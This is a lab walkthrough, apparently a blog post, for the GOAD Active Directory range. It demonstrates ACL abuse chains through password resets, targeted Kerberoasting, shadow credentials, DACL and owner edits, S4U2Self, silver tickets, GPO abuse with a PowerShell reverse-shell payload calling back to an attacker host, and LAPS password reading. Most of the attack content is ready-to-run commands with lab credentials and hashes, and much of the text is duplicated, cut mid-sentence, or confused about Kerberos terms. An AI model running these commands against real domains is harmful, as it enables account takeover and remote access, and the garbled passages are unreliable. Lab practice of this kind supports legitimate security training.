

GOAD - part 10 - ACL - Done
Access privileges for resources in Active Directory Domain Services are usually granted through the use of an Access Control Entry (ACE). Access Control Entries describe the allowed and denied permissions for a principal (e.g. user, computer account) in Active Directory against a securable object (user, group, computer, container, organizational unit (OU), GPO and so on) If an object's (called objectA) DACL features an ACE stating that another object (called objectB) has a specific right (e.g.GenericAll) over it (i.e. over objectA), attackers need to be in control of objectB to take control of objectA.
The following abuses can only be carried out when running commands as the user mentioned in the ACE (objectB)
 GenericAll Rights on User
This privilege grants an attacker full control over a target user account. Once
GenericAll Rights on User
This privilege grants an attacker full control over a target user account. Once GenericAll rights are confirmed using the Get-ObjectAcl command, an attacker can:
- Change the Target's Password: Using
net user <username> <password> /domain, the attacker can reset the user's password. - Targeted Kerberoasting: Assign an SPN to the user's account to make it kerberoastable, then use Rubeus and targetedKerberoast.py to extract and attempt to crack the ticket-granting ticket (TGT) hashes.
- Targeted ASREPRoasting: Disable pre-authentication for the user, making their account vulnerable to ASREPRoasting. GenericAll Rights on Group
GenericAll rights on a group like Domain Admins. After identifying the group's distinguished name with Get-NetGroup, the attacker can:
- Add Themselves to the Domain Admins Group: This can be done via direct commands or using modules like Active Directory or PowerSploit. GenericAll / GenericWrite / Write on Computer/User * Holding these privileges on a computer object or a user account allows for:
- Kerberos Resource-based Constrained Delegation: Enables taking over a computer object.
- Shadow Credentials: Use this technique to impersonate a computer or user account by exploiting the privileges to create shadow credentials. WriteProperty on Group
WriteProperty rights on all objects for a specific group (e.g., Domain Admins), they can:
Add Themselves to the Domain Admins Group: Achievable via combining net user and Add-NetGroupUser commands, this method allows privilege escalation within the domain.
Self (Self-Membership) on Group
This privilege enables attackers to add themselves to specific groups, such as Domain Admins, through commands that manipulate group membership directly.
Using the following command sequence allows for self-addition:
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
WriteProperty (Self-Membership)
A similar privilege, this allows attackers to directly add themselves to groups by modifying group properties if they have the WriteProperty right on those groups.
The confirmation and execution of this privilege are performed with:
Get-ObjectAcl -ResolveGUIDs | ? {$<em>.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $</em>.IdentityReference -eq "OFFENSE\spotless"}
net group "domain admins" spotless /add /domain
ForceChangePassword
Holding the ExtendedRight on a user for User-Force-Change-Password allows password resets without knowing the current password. Verification of this right and its exploitation can be done through PowerShell or alternative
command-line tools, offering several methods to reset a user's password, including interactive sessions and one-liners for non-interactive environments.
The commands range from simple PowerShell invocations to using rpcclient on Linux, demonstrating the versatility of attack vectors.
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
rpcclient -U KnownUsername 10.10.10.192 setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
### WriteOwner on Group
If an attacker finds that they have WriteOwner rights over a group, they can change the ownership of the group to themselves. This is particularly impactful when the group in question is Domain Admins, as changing ownership allows for broader control over group attributes and membership. The process involves identifying the correct object via Get-ObjectAcl and then using Set-DomainObjectOwner to modify the owner, either by SID or name.
Get-ObjectAcl -ResolveGUIDs | ? {$<em>.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $</em>.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
### GenericWrite on User
This permission allows an attacker to modify user properties. Specifically, with GenericWrite access, the attacker can change the logon script path of a user to execute a malicious script upon user logon.
This is achieved by using the Set-ADObject command to update the scriptpath property of the target user to point to the attacker's script.
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1”
### GenericWrite on Computer
With GenericWrite over a computer, you can write to the “msds-KeyCredentialLink” attribute. Writing to this property allows an attacker to create “Shadow Credentials” on the object and authenticate as the principal using Kerberos PKINIT. See more information under the AddKeyCredentialLink edge.
Alternatively, you can perform a resource-based constrained delegation attack against the computer.
GenericWrite on Group
With this privilege, attackers can manipulate group membership, such as adding themselves or other users to specific groups. This process involves creating a credential object, using it to add or remove users from a group, and verifying the membership changes with PowerShell commands.
$pwd = ConvertTo-SecureString 'JustAWeirdPwd!$' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $pwd)
Add-DomainGroupMember -Credential $creds -Identity 'Group Name' -Members 'username' -Verbose
Get-DomainGroupMember -Identity "Group Name" | Select MemberName
Remove-DomainGroupMember -Credential $creds -Identity "Group Name" -Members 'username' -Verbose
WriteDACL + WriteOwner
Owning an AD object and having WriteDACL privileges on it enables an attacker to grant themselves GenericAll privileges over the object. This is accomplished through ADSI manipulation, allowing for full control over the object and the ability to modify its group memberships. Despite this, limitations exist when trying to exploit these privileges using the Active Directory module's Set-Acl / Get-Acl cmdlets.
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
Replication on the Domain (DCSync)
The DCSync attack leverages specific replication permissions on the domain to mimic a Domain Controller and synchronize data, including user credentials.
This powerful technique requires permissions like DS-Replication-Get-Changes, allowing attackers to extract sensitive information from the AD environment without direct access to a Domain Controller.
### Practice
Let’s start by configuring the lab so we can do some ACL Abuses.
sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook ad-data.yml
sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook ad-acl.yml
sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook ad-relations.yml
sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook vulnerabilities.yml
 # Enumeration
Enumerating ACLs with Bloodhound-python UNIX-like
Once we do have a valid user, we can use Bloodhound to enumerate.
# Enumeration
Enumerating ACLs with Bloodhound-python UNIX-like
Once we do have a valid user, we can use Bloodhound to enumerate.
bloodhound-python -c all -u 'tywin.lannister@sevenkingdoms.local' -p 'powerkingftw135' -ns 10.4.10.10 -d sevenkingdoms.local -dc kingslanding.sevenkingdoms.local
 Now let’s upload this information into Bloodhound and analyze it.
### Analysis
we can use the following filter to find ACL configurations.
Now let’s upload this information into Bloodhound and analyze it.
### Analysis
we can use the following filter to find ACL configurations.
MATCH p=(u)-[r1]->(n) WHERE r1.isacl=true and not tolower(u.name) contains 'vagrant' and u.admincount=false and not tolower(u.name) contains 'key' RETURN p
## sevenkingdoms.local ACL
To start we will focus on the sevenkingdoms killchain of ACL by starting with tywin.lannister (password: powerkingftw135)
- The path here is :
- Tywin -> Jaime : Change password user
- Jaime -> Joffrey : Generic Write user
- Joffrey -> Tyron : WriteDacl on user
- Tyron -> small council : add member on group
- Small council -> dragon stone : write owner group to group
- dragonstone -> kingsguard : write owner to group
- kingsguard -> stannis : Generic all on User
- stannis -> kingslanding : Generic all on Computer

 As we can see above, user tywin.lannister has
As we can see above, user tywin.lannister has ForceChangePassword right to user jaime.lannister, let’s take advantage of this right.
We execute the command and we get the prompt to add the new password. After that we can test the login with the new password on user jaime.lannister.
net rpc password jaime.lannister -U 'sevenkingdoms.local/tywin.lannister%powerkingftw135' -S kingslanding.sevenkingdoms.local
netexec smb 10.4.10.10 -u jaime.lannister -p 'pasdebraspasdechocolat' -d sevenkingdoms.local
 Above we can see that were able to change user jaime.lannister’s password, testing login to the server using NetExec.
# GenericWrite on User (Jaime -> Joffrey)
Previously we were able to get access to user Jaime exploring
Above we can see that were able to change user jaime.lannister’s password, testing login to the server using NetExec.
# GenericWrite on User (Jaime -> Joffrey)
Previously we were able to get access to user Jaime exploring ForceChangePassword right. the next step is to do an horizontal privilege escalation exploring GenericWrite from user Jaime to user Joffrey.
 Because user jaime has
Because user jaime has GenericWrite on a User account, there are 3 possible techniques:
- Shadow Credentials (Windows Server 2016 +)
- Logon Script
- Targeted Kerberoasting (Normally the password has to be weak enough for the hash to be cracked or you really need to have a good wordlist)
GenericAll, GenericWrite, WriteProperty or Validated-SPN over the target.
A member of the Account Operator group usually has those permissions.
The attacker can add an SPN (ServicePrincipalName) to that account. Once the account has an SPN, it becomes vulnerable to Kerberoasting.
The principle is simple. Add an SPN(Service Principal Name) to the user, ask for a (TGS)Ticket Granting Service, remove the SPN(Service Principal Name) on the user.
targetedKerberoast.py</a> -v -d sevenkingdoms.local -u 'jaime.lannister' -p 'pasdebraspasdechocolat' --request-user 'joffrey.baratheon'
 Once the Kerberoast hash is obtained, it can possibly be cracked to recover the account's password if the password used is weak enough.
Now we can get the TGS and try to crack it using Hashcat.
Once the Kerberoast hash is obtained, it can possibly be cracked to recover the account's password if the password used is weak enough.
Now we can get the TGS and try to crack it using Hashcat.
hashcat -m 13100 -a 0 TGS_hash.txt /usr/share/wordlists/rockyou.txt --force
 Using
Using Hashcat we were able to crack the TGS hash and the password is 1killerlion.
### Shadow Credentials
The abuse of Key Trust for computer objects encompasses steps beyond obtaining a Ticket Granting Ticket (TGT) and the NTLM hash.
We can use this technique to impersonate a computer or user account by exploiting the privileges to create shadow credentials, the Shadow Credentials attack can be easily achieved with Certipy.
certipy shadow auto -u 'jaime.lannister@sevenkingdoms.local' -p 'pasdebraspasdechocolat' -account 'joffrey.baratheon’
 The abuse of Key Trust for computer objects encompasses steps beyond obtaining a Ticket Granting Ticket (TGT) and the NTLM hash as we can see above.
NT hash for 'joffrey.baratheon':
The abuse of Key Trust for computer objects encompasses steps beyond obtaining a Ticket Granting Ticket (TGT) and the NTLM hash as we can see above.
NT hash for 'joffrey.baratheon': 3b60abbc25770511334b3829866b08f1
Saved credential cache to 'joffrey.baratheon.ccache’
### Logon script
A logon script is a script that is executed under the context of a given user when that user logs into a computer in an Active Directory environment.
That bit about running as the user who logs in will be important later on. Logon scripts can be configured in Group Policy and/or through the scriptPath attribute in the user’s Active Directory profile.
Logon scripts are great because they can be used to do all sorts of fun things like map file shares, add printers, update software, delete temp files, log login times, run commands, set background wallpapers, etc.
We can use ldapserach and ldeep to show the scriptpath ldap value.
# WriteDacl on User (Joffrey -> Tyron)
Owning an AD object and having WriteDACL privileges on it enables an attacker to grant themselves GenericAll privileges over the object.
We will now abuse the WriteDacl right that user joffrey.baratheon has on user tyron.lannister.
 We can also start by reading the rights Joffrey.lannister has on tyron.lannister using dacledit.py (an impacket fork from ShutDown)
We can also start by reading the rights Joffrey.lannister has on tyron.lannister using dacledit.py (an impacket fork from ShutDown)
dacledit.py</a> -action 'read' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'
 We can see above the
We can see above the WriteDACL right from user joffrey.baratheon to tyron.lannister on “Access mask” flag. Now let’s change it to “FullControll”
dacledit.py</a> -action 'write' -rights 'FullControl' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'
 Now let’s check it again.
Now let’s check it again.
dacledit.py</a> -action 'read' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'
 Now we can see that we were able to change it to
Now we can see that we were able to change it to FullControl. From this FullControl we now do 3 different type of attacks.
- Kerberoasting Attack against tyron.lannister.
- Change tyron.lannister’s password
- Do a Shadow Credentials attack
certipy shadow auto -u 'joffrey.baratheon@sevenkingdoms.local' -p '1killerlion' -account 'tyron.lannister'
 [*] NT hash for 'tyron.lannister':
[*] NT hash for 'tyron.lannister': b3b3717f7d51b37fb325f7e7d048e998
Using NetExec we can test with we are able to login to the machine as user tyron.lannister using its hash as well, since we were not able to crack the hash.
netexec smb 10.4.10.10 -u 'tyron.lannister' -H 'b3b3717f7d51b37fb325f7e7d048e998'
 We were able to login.
# Add self on Group (Tyron -> Small Council)
Now we will abuse the Right
We were able to login.
# Add self on Group (Tyron -> Small Council)
Now we will abuse the Right AddSelf that user tyron.lannister has over a group called Small Council
This privilege enables attackers to add themselves to specific groups,
 Let’s start by using ldeep to find out the users DN(Distinguished Name)
Let’s start by using ldeep to find out the users DN(Distinguished Name)
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.4.10.10 search '(sAMAccountName=tyron.lannister)' distinguishedname
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.4.10.10 search '(sAMAccountName=Small Council)' distinguishedname
 We can see by comparing both DistinguishedName that users tyron.lannister have different DistinguishedName.
Since user tyron.lannister has
We can see by comparing both DistinguishedName that users tyron.lannister have different DistinguishedName.
Since user tyron.lannister has AddSelf assigned to the group Small Council, we can abuse this right and make tyron.lannister to be part of the group Small Council.
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.4.10.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=Small Council,OU=Crownlands,DC=sevenkingdoms,DC=local"
 We can also check the group Small Council members by using the flag
We can also check the group Small Council members by using the flag memberof as well.
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.4.10.10 membersof 'Small Council’
 Voila, We were able to abuse it and tyron.lannister is now part of Small Council group.
# AddMember on Group (Small Council -> dragonstone)
By abusing the
Voila, We were able to abuse it and tyron.lannister is now part of Small Council group.
# AddMember on Group (Small Council -> dragonstone)
By abusing the AddMembers permission with the Add-DomainGroupMember command, an attacker can add themselves or others to a domain group, potentially granting unauthorized access.
 As we were able to abuse the
As we were able to abuse the AddSelf right previously, the user tyron.lannister is now member of Small Council Group. Small Council group has AddMember rights to DragonStone Group, so we can also add tyron.lannister into DragonStone group as well.
Let’s start by checking tyron.lannister and the DragonStone DistinguishedName.
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.4.10.10 search '(sAMAccountName=tyron.lannister)' distinguishedName
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.4.10.10 search '(sAMAccountName=Dragonstone)' distinguishedName
 Ok, now we can add tyron.lannister into DragonStone group.
Ok, now we can add tyron.lannister into DragonStone group.
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.4.10.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=DragonStone,OU=Crownlands,DC=sevenkingdoms,DC=local"
 User Tyron.lannister is now member of DragonStone group.
# WriteOwner on Group (dragonstone -> kingsguard)
User Tyron.lannister is now member of DragonStone group.
# WriteOwner on Group (dragonstone -> kingsguard)
 As member of the group DragonStone user tyron.lannister and the group has
As member of the group DragonStone user tyron.lannister and the group has WriteOwner right over KingsGuard, tyron.lannister can abuse this right and become KingsGuard group owner.
We will use owneredit.py to enumerate Kingsguard group owner and also to change overpass ownership
owneredit.py</a> -action 'read' -target 'kingsguard' sevenkingdoms.local/tyron.lannister -hashes ':b3b3717f7d51b37fb325f7e7d048e998'
 above we can see that vagrant is the owner of KingsGuard group.
Now we just need to abuse the right and become the owner of KingsGuard group.
above we can see that vagrant is the owner of KingsGuard group.
Now we just need to abuse the right and become the owner of KingsGuard group.
owneredit.py -action 'write' -new-owner 'tyron.lannister' -target 'kingsguard' 'sevenkingdoms.local/tyron.lannister' -hashes ':b3b3717f7d51b37fb325f7e7d048e998'
 Voila, tyron.lannister is now the KingsGuard group owner.
Becoming the group owner allows you to change the group ACL(Access Control List) and assign GenericAll to the group.
Voila, tyron.lannister is now the KingsGuard group owner.
Becoming the group owner allows you to change the group ACL(Access Control List) and assign GenericAll to the group.
dacledit.py -action 'write' -rights 'FullControl' -principal tyron.lannister -target 'kingsguard' 'sevenkingdoms.local'/'tyron.lannister' -hashes ':b3b3717f7d51b37fb325f7e7d048e998'
 Now that we were able to give
Now that we were able to give GenericAll right to the KingsGuard group, we can now add tyron.lannister to the KingsGuard group.
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.4.10.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=kingsguard,OU=Crownlands,DC=sevenkingdoms,DC=local"
 Amazing, tyron.lannister is now membert of KingsGuard group.
# GenericAll on user (kingsguard -> stannis)
The GenericAll permission provides write access to all properties (add users to a group or reset the user’s password). The right to read permissions on this object, write all the properties on this object, and perform all validated writes to this object.
This is exactly what we will do here, we will abuse the
Amazing, tyron.lannister is now membert of KingsGuard group.
# GenericAll on user (kingsguard -> stannis)
The GenericAll permission provides write access to all properties (add users to a group or reset the user’s password). The right to read permissions on this object, write all the properties on this object, and perform all validated writes to this object.
This is exactly what we will do here, we will abuse the GenericAll that KingsGuard Group has over user Stannis.Baratheon, since user Tyron.Lannister is already part of KingsGuard, Tyron.Lannister has Full Control on Stannis.Baratheon.
 for this GenericAll abuse we will simply reset user’s password.
UNIX Like:
for this GenericAll abuse we will simply reset user’s password.
UNIX Like:
net rpc password stannis.baratheon --pw-nt-hash -U 'sevenkingdoms.lcoal/tyron.lannister%b3b3717f7d51b37fb325f7e7d048e998' -S kingslanding.sevenkingdoms.local
We will user the password MrStark123 for this.
# GenericAll on Computer (Stannis -> kingslanding)
Holding these privileges on a computer object or a user account allows for:
- Kerberos Resource-based Constrained Delegation: Enables taking over a computer object.
- Shadow Credentials: Use this technique to impersonate a computer or user account by exploiting the privileges to create shadow credentials.
msDS-KeyCredentialLink, we can do the shadow credentials attack to get a direct access on the target account.
Let’s user pywisker to check msDS-KeyCredentialLink.
python3 <a href="http://pywhisker.py/" target="_blank">pywhisker.py</a> -d 'sevenkingdoms.local' -u 'stannis.baratheon' -p 'MrStark123' --target 'kingslanding$' --action "list"
 “Attribute msDS-KeyCredentialLink is either empty or user does not have read permissions on that attribute”, this information doesn’t mean that we do not have the right permission on to read kingslanding$ attribution, because we enumerated already that we do have
“Attribute msDS-KeyCredentialLink is either empty or user does not have read permissions on that attribute”, this information doesn’t mean that we do not have the right permission on to read kingslanding$ attribution, because we enumerated already that we do have GenericAll right on the machine. So it menas that msDS-KeyCredentialLink is really empty.
For this attack we can use Certipy or Pywisker. Let’s use Certipy for this attack.
Previously the did a check with pywisker, now lets also use pywisker to do this Shadow Credential attack.
python3 <a href="http://pywhisker.py/" target="_blank">pywhisker.py</a> -d 'sevenkingdoms.local' -u 'stannis.baratheon' -p 'MrStark123' --target 'kingslanding$' --action "add"
 We were able to do the Shadow Credential attack.
Now if we check the msDS-KeyCredentialLink again, we see that it’s not empty anymore.
We were able to do the Shadow Credential attack.
Now if we check the msDS-KeyCredentialLink again, we see that it’s not empty anymore.
python3 <a href="http://pywhisker.py/" target="_blank">pywhisker.py</a> -d 'sevenkingdoms.local' -u 'stannis.baratheon' -p 'MrStark123' --target 'kingslanding$' --action "list"
 We now have a new entry.
The same Shadow Credential attack can be achieved with Certipy as well.
We now have a new entry.
The same Shadow Credential attack can be achieved with Certipy as well.
certipy shadow auto -u 'stannis.baratheon@sevenkingdoms.local' -p 'MrStark123' -account 'kingslanding$'
 'KINGSLANDING$': 7147e7ee3e5cf640e32995d1610a41bb
Now we hold KINGSLANDING$ TGT and NT hash as well.
From this point, we know that KINGSLANDING$ is the Domain Controller of sevenkingdoms.local domain, we can do several things here like a DCSync attack straightforward.
For labbing purpose, let’s try something different…
## Machine account to Administrator shell
We can try S4u2Self abuse and create a silver ticket as well.
### s4u2self abuse
For this attack, we can ask for the Adminstrator’s TGS(Ticket Granting Service) as the administrator domains user.
For that we will use kingslanding$ machine TGT (Ticket Granting Ticket).
'KINGSLANDING$': 7147e7ee3e5cf640e32995d1610a41bb
Now we hold KINGSLANDING$ TGT and NT hash as well.
From this point, we know that KINGSLANDING$ is the Domain Controller of sevenkingdoms.local domain, we can do several things here like a DCSync attack straightforward.
For labbing purpose, let’s try something different…
## Machine account to Administrator shell
We can try S4u2Self abuse and create a silver ticket as well.
### s4u2self abuse
For this attack, we can ask for the Adminstrator’s TGS(Ticket Granting Service) as the administrator domains user.
For that we will use kingslanding$ machine TGT (Ticket Granting Ticket).
export KRB5CCNAME=kingslanding.ccache
getST.py</a> -self -impersonate 'Administrator' -altservice 'CIFS/kingslanding.sevenkingdoms.local' -k -no-pass -dc-ip 10.4.10.10 'sevenkingdoms.local'/'kingslanding$'
 As we can see above we were able to impersonate the Administrator and get it’s Administrator’s TGS. We can now use it’s TGS to login into the Domain Controller as Domain Admin.
As we can see above we were able to impersonate the Administrator and get it’s Administrator’s TGS. We can now use it’s TGS to login into the Domain Controller as Domain Admin.
export KRB5CCNAME=Administrator@CIFS_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
wmiexec.py</a> -k -no-pass sevenkingdoms.local/Administrator@kingslanding.sevenkingdoms.local
 ## Silver ticket - To be Finished.
The second option we have to get Domain Admin holding Kingslanding$ TGT, is to get a Silver Ticket.
A silver ticket is a forged authentication ticket often created when an attacker steals an account password. What a silver ticket attack shares with other types of ticket attacks is the abuse of the Kerberos vulnerability. This is called Kerberoasting, and it harvests password hashes for Microsoft Active Directory user accounts by exploiting Kerberos, a network security protocol that authenticates service requests using secret-key cryptography.
To execute a silver ticket attack, an attacker needs to already have control of a compromised target in the system.
Once the attacker has a way in, a silver ticket attack follows a step-by-step process to forge authorization credentials.
Step 1. Gather information about the domain and the targeted local service. This involves discovering the domain security identifier and the DNS name of the service the attack is intended for.
## Silver ticket - To be Finished.
The second option we have to get Domain Admin holding Kingslanding$ TGT, is to get a Silver Ticket.
A silver ticket is a forged authentication ticket often created when an attacker steals an account password. What a silver ticket attack shares with other types of ticket attacks is the abuse of the Kerberos vulnerability. This is called Kerberoasting, and it harvests password hashes for Microsoft Active Directory user accounts by exploiting Kerberos, a network security protocol that authenticates service requests using secret-key cryptography.
To execute a silver ticket attack, an attacker needs to already have control of a compromised target in the system.
Once the attacker has a way in, a silver ticket attack follows a step-by-step process to forge authorization credentials.
Step 1. Gather information about the domain and the targeted local service. This involves discovering the domain security identifier and the DNS name of the service the attack is intended for.
lookupsid.py</a> 'sevenkingdoms.local'/'kingslanding$'@'kingslanding.sevenkingdoms.local' 0 -hashes ':7147e7ee3e5cf640e32995d1610a41bb'
 Step 2. We now create the Silver Ticket..
Step 2. We now create the Silver Ticket..
ticketer.py</a> -domain-sid 'S-1-5-21-332544030-1053405351-3017451513' -domain 'sevenkingdoms.local' -spn 'CIFS/kingslanding.sevenkingdoms.local' -nthash ':7147e7ee3e5cf640e32995d1610a41bb' Administrator
 Step 3. Use the forged tickets for financial gain or to further corrupt a system, depending on the attacker’s objective.
# GPO abuse
Group Policy Objects are a collection of settings that can be applied to groups of computers or users within a Windows domain. These settings can govern various configurations, including security policies, software installation, and network drive mappings. GPOs are stored on a domain controller and are applied to targeted objects during the login process.
However, in the wrong hands, GPOs can become a potent weapon for attackers. In this lab, we will explore the concept of GPO abuse and how it can be harnessed to gain unauthorized access and control over a network.
> Please be aware that abusing GPOs can mess with the internal policies in an Active Directory enviroment, we need to be careful when abusing these GPOs permissions.
>
We can identify weak GPOs policy using Bloodhound. Here is the command:
Step 3. Use the forged tickets for financial gain or to further corrupt a system, depending on the attacker’s objective.
# GPO abuse
Group Policy Objects are a collection of settings that can be applied to groups of computers or users within a Windows domain. These settings can govern various configurations, including security policies, software installation, and network drive mappings. GPOs are stored on a domain controller and are applied to targeted objects during the login process.
However, in the wrong hands, GPOs can become a potent weapon for attackers. In this lab, we will explore the concept of GPO abuse and how it can be harnessed to gain unauthorized access and control over a network.
> Please be aware that abusing GPOs can mess with the internal policies in an Active Directory enviroment, we need to be careful when abusing these GPOs permissions.
>
We can identify weak GPOs policy using Bloodhound. Here is the command:
bloodhound-python -c all -u 'samwell.tarly@north.sevenkingdoms.local' -p 'Heartsbane' -ns 10.4.10.11 -d north.sevenkingdoms.local -dc winterfell.north.sevenkingdoms.local
After getting the information, we need to upload it to bloodhound and if we use the proper filter we get all ACL/ACE and GPOs configuration.
MATCH p=(u)-[r1]->(n) WHERE r1.isacl=true and not tolower(u.name) contains 'vagrant' and u.admincount=false and not tolower(u.name) contains 'key' RETURN p
 Above screenshot we see that user Samwell.Tarly has
Above screenshot we see that user Samwell.Tarly has WriteDACL/WriteOwner/GenericWrite rights over Group Policy Object StarkWallpaper.
For this abuse we will be using pyGPOAbuse which is a Unix-Like option.
GPO-ID can be found using GPOwned.py with the following command:
python3 <a href="https://github.com/X-C3LL/GPOwned" target="_blank">GPOwned.py</a> -u 'samwell.tarly' -p 'Heartsbane' -d north.sevenkingdoms.local -dc-ip 10.4.10.11 -gpcmachine -listgpo
 It’s also possible to get GPO-ID from Bloodhound as well.
It’s also possible to get GPO-ID from Bloodhound as well.
 GPO-ID: 04D1C282-2F79-452A-AAED-8B9FC51957AB
The standard action for this script, will create an immediate scheduled task as SYSTEM on the remote computer for computer GPO, or as logged in user for user GPO.
If we check pygpoabuse.py, you will notice that the default command is to add user
GPO-ID: 04D1C282-2F79-452A-AAED-8B9FC51957AB
The standard action for this script, will create an immediate scheduled task as SYSTEM on the remote computer for computer GPO, or as logged in user for user GPO.
If we check pygpoabuse.py, you will notice that the default command is to add user John with the password H4x00r123.. and the user will also be added to the local Administrator group.
 So lets’s execute the command:
So lets’s execute the command:
python3 <a href="http://pygpoabuse.py/" target="_blank">pygpoabuse.py</a> north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -gpo-id "04D1C282-2F79-452A-AAED-8B9FC51957AB"
 above see that, the new task was created with success, we were able to abuse the rights we do have on this GPO.
Now it’s just matter of time, we just need to way for few minutes and we will be avble to login as user John.
above see that, the new task was created with success, we were able to abuse the rights we do have on this GPO.
Now it’s just matter of time, we just need to way for few minutes and we will be avble to login as user John.
evil-winrm -u 'john' -p 'H4x00r123..' -i 10.4.10.11
 Reverse Shell
A reverse shell can also be achieved from the following command:
Reverse Shell
A reverse shell can also be achieved from the following command:
python3 <a href="http://pygpoabuse.py/" target="_blank">pygpoabuse.py</a> north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -gpo-id "04D1C282-2F79-452A-AAED-8B9FC51957AB" -powershell -command "\$c = New-Object System.Net.Sockets.TCPClient('10.4.10.1',443);\$s = \$c.GetStream();[byte[]]\$b = 0..65535|%{0};while((\$i = \$s.Read(\$b, 0, \$b.Length)) -ne 0){ \$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$b,0, \$i); \$sb = (iex \$d 2>&1 | Out-String ); \$sb = ([text.encoding]::ASCII).GetBytes(\$sb + 'ps> '); \$s.Write(\$sb,0,\$sb.Length); \$s.Flush()};\$c.Close()" -taskname "MrStarkTask" -description "It's Tony Stark Here"
after few minutes we get the connection to the server.
 # Read Laps password
Local Administrator Password Solution (LAPS) is a tool used for managing a system where administrator passwords, which are unique, randomized, and frequently changed, are applied to domain-joined computers. These passwords are stored securely within Active Directory and are only accessible to users who have been granted permission through Access Control Lists (ACLs). The security of the password transmissions from the client to the server is ensured by the use of Kerberos version 5 and Advanced Encryption Standard (AES).
In the domain's computer objects, the implementation of LAPS results in the addition of two new attributes:
# Read Laps password
Local Administrator Password Solution (LAPS) is a tool used for managing a system where administrator passwords, which are unique, randomized, and frequently changed, are applied to domain-joined computers. These passwords are stored securely within Active Directory and are only accessible to users who have been granted permission through Access Control Lists (ACLs). The security of the password transmissions from the client to the server is ensured by the use of Kerberos version 5 and Advanced Encryption Standard (AES).
In the domain's computer objects, the implementation of LAPS results in the addition of two new attributes: ms-mcs-AdmPwd and ms-mcs-AdmPwdExpirationTime.
These attributes store the plain-text administrator password and its expiration time, respectively.
This abuse can be carried out when controlling an object that has GenericAll or AllExtendedRights (or combination of GetChanges and (GetChangesInFilteredSet or GetChangesAll) for domain-wise synchronization) over the target computer configured for LAPS.
The attacker can then read the LAPS password of the computer account (i.e. the password of the computer's local administrator).
We can see below that user Jorah.Mormont has ReadLAPSPassword right over Braavos.essos.local, which is the essos.local domain controller.
 We do have 2 options for this type of abuse. from boht examples we are able to retrive the computers password if not configured properly.
### PyLAPS
We do have 2 options for this type of abuse. from boht examples we are able to retrive the computers password if not configured properly.
### PyLAPS
python3 <a href="http://pylaps.py/" target="_blank">pyLAPS.py</a> --action get -d 'essos.local' -u 'jorah.mormont' -p 'H0nnor!' --dc-ip 10.4.10.11
 ### NetExec
### NetExec
netexec ldap 10.4.10.12 -d essos.local -u jorah.mormont -p 'H0nnor!' --module laps

BRAAVOS$ : 12([2r3;m-o80Z